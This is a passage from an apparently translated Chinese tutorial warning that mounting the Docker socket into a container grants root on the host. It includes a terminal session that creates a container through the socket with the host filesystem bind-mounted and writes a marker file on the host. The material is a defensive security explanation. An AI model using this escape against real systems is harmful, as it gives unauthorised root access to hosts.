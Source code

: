 # 将 Docker 套接字挂载到容器中

这绝对是开发人员在部署容器化解决方案时完全忽视的最严重的安全漏洞。对于与容器管理相关的各种事情，通常在互联网上的建议都倾向于将 Docker 套接字（`/var/run/docker.sock`）绑定到容器中，但很少提到的是这样做实际上会有效地将主机的根级访问权限赋予这样的容器。由于 Docker 的套接字实际上只是一个 API 端点，而 Docker 守护程序以 root 身份运行，容器可以通过在其上挂载主机系统文件夹并在其上执行任意命令来简单地逃离其封闭环境。

有关使用 Docker 套接字作为 RESTful 端点的更多信息，您可以查看源代码，或者通过 Docker Engine API 的文档进行探索[`docs.docker.com/engine/api/v1.31/`](https://docs.docker.com/engine/api/v1.31/)。通常，您只需要通过诸如`curl`之类的工具添加`--unix-socket <socket_path>`，并且对于`POST`请求，可以选择添加`-H "Content-Type: application/json"`。

Docker 一直在努力将其服务从根级别转变为用户空间级别，但到目前为止，这个功能还没有以任何实际的方式实现。尽管我个人对这种情况很怀疑，但请留意这个功能，因为在某个时候它可能会真正发布并成为一个可用的功能，这将是容器安全性的重大进步。

```
$ Start a "benign" container with the Docker socket mounted and run Bash
$ docker run --rm \
 -it \
 -v /var/run/docker.sock:/var/run/docker.sock \
 ubuntu /bin/bash 

root@686212135a17:/# # Sanity check - make sure that the socket is there
root@686212135a17:/# ls -la /var/run/docker.sock
srw-rw---- 1 root 136 0 Sep 20 05:03 /var/run/docker.sock

root@686212135a17:/# # Install curl but almost any other HTTP client will work
root@686212135a17:/# # Even a base Python can do this but curl is fine for brevity
root@686212135a17:/# apt-get update && apt-get install -y curl
<snip>
done

root@686212135a17:/# # Create a container through the socket and bind-mount root to it
root@686212135a17:/# # with a "malicious" touch command to run
root@686212135a17:/# curl -s \
 --unix-socket /var/run/docker.sock \
 -H "Content-Type: application/json" \
 -d '{"Image": "ubuntu", "Cmd": ["touch", "/mnt/security_breach"], "Mounts": [{"Type": "bind", "Source": "/", "Target":"/mnt", "RW": true}]}' \
 -X POST \
 http:/v1.29/containers/create 
{"Id":"894c4838931767462173678aacc51c3bb98f4dffe15eaf167782513305c72558","Warnings":null}

root@686212135a17:/# # Start our escaped container
root@686212135a17:/# curl --unix-socket /var/run/docker.sock \
 -X POST \
 http:/v1.29/containers/894c4838/start

root@686212135a17:/# # Exit out of our "benign" container back to host
root@686212135a17:/# exit
exit

$ # Let's see what happened on our host
$ ls -la / | grep breach
-rw-r--r--   1 root root       0 Sep 20 23:14 security_breach 
$ # Oops!
```

现在应该很明显了，良性容器是如何能够仅通过几个 CLI 命令就在主机上获得 root 权限的。虽然其中一些是基于容器进程以 root 身份运行，但如果 Docker 组 ID 与容器中的非特权组冲突，可能也会出现相同的情况，但是除了这些细微之处，可以说，挂载 Docker 套接字而不完全理解其影响可能导致非常痛苦的违规行为。考虑到这一点，这种技术也有（虽然很少）合法的用途，所以在这里要慎重使用。

# 现在我们已经了解了如何滥用 Docker 套接字的理论，接下来我们将跳出容器，尽管我们不会真的对系统造成任何破坏：主机安全扫描。


